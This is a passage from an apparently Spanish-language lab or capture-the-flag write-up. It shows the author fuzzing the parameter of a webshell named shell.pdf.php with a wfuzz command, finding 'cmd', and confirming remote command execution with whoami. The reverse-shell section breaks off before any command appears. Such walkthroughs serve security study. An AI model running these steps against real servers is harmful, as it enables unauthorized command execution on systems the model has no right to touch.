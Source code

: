 Al ver el archivo en la web, nos pone `boom!` 

![20231109011941.png](20231109011941.png)

Normalmente una webshell tiene un parametro, ahora vamos a buscar el parametro haciendo uso de `wfuzz`.

```java
❯ wfuzz -c -f directoryWeb,raw -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 --hh 18 http://[IP-VICTIM]/cvs/shell.pdf.php?FUZZ=id

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://[IP-VICTIM]/cvs/shell.pdf.php?FUZZ=id
Total requests: 220560
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================
000005340:   200        2 L      5 W        72 Ch       "cmd"  
```

Encontramos el parametro que es `cmd` 

## Explotación
---

Ingresamos el comando `whoami` y podemos observar que se puede ejecutar comandos

![20231109012508.png](20231109012508.png)

### Revershell

Ahora que podemos ejecutar comandos, vamos a obtebner una shell. Vamos hacerlo como yo lo hago
